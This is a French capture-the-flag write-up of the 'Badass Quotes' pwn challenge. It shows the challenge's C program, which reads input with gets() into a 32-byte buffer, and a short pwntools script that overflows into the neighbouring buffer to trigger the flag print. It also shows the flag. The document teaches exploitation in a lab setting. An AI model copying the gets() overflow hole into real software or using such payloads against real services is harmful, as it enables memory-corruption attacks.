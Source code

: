 ```yaml
---
title: "[CSW CTF] - Badass Quotes (500)"
date: 2022-01-02
categories: ['pwn']
draft: false
---
```


---
### Author : `Rxphgui` 
---

Aujourd'hui on va voir un challenge du CSW CTF. Un challenge de pwn dont j'ai eu le second solve (à 1 sec du first blood 0_0).

## Review du Code
Nous avions simplement le code source en C suivant :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
    char term[64];
    char quote[32];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    memset(term, 0, 64);
	memset(quote, 0, 32);

    printf("\nI CaN HaS BaDaSs QuOtE?\n# ");
    gets(quote);

    if (strcmp(term, "BaDaSs I Am") == 0) {
        printf("\n");
        system("cat flag.txt");
        } else if(strlen(term) !    = 0) {    
            printf("\nI haz a sad %s...\n\n", term);
    } else {
	    printf("\nI haz a sad...\n\n");
	}

	printf(" ,_     _\n");
	printf(" |\\_,-~/\n");
	printf(" / _  _ |    ,--.\n");
	printf("(  @  @ )   / ,-'\n");
	printf(" \  _T_/-._( (   \n");
	printf(" /         `. \  \n");
	printf("|         _  \ | \n");
	printf(" \ \ ,  /      | \n");
	printf("  || |-_\__   /  \n");
	printf(" ((_/`(____,-'   \n");
	
}
```

## Exploitation 
Pour avoir le flag, on doit écrire sur `term` *"BaDaSs I Am"*.
On voit deux memset :
```c
memset(term, 0, 64);
memset(quote, 0, 32);
```

L'entrée utilisateur est `gets`, nous pouvons donc faire un buffer overflow.
```c
gets(quote);
```
Si nous écrivons plus de 32 caractères, nous allons écrire sur `term`.

## Payload [Pwntools]
```py
from pwn import *

elf = context.binary = ELF('./vuln')
p = elf.process()
r = remote('cybersecweek.ua.pt', 2010)

buffer = b"A"*32
strings_win = b"BaDaSs I Am"

payload = buffer + strings_win
print(payload)
r.sendline(payload)

r.interactive()
```

Nous obtenons alors :
```
CTFUA{!YoU_Ar3_B4dAss!}
```
Merci d'avoir lu & merci [Bryton](https://www.youtube.com/c/Opcode) de m'avoir volé le first blood :")
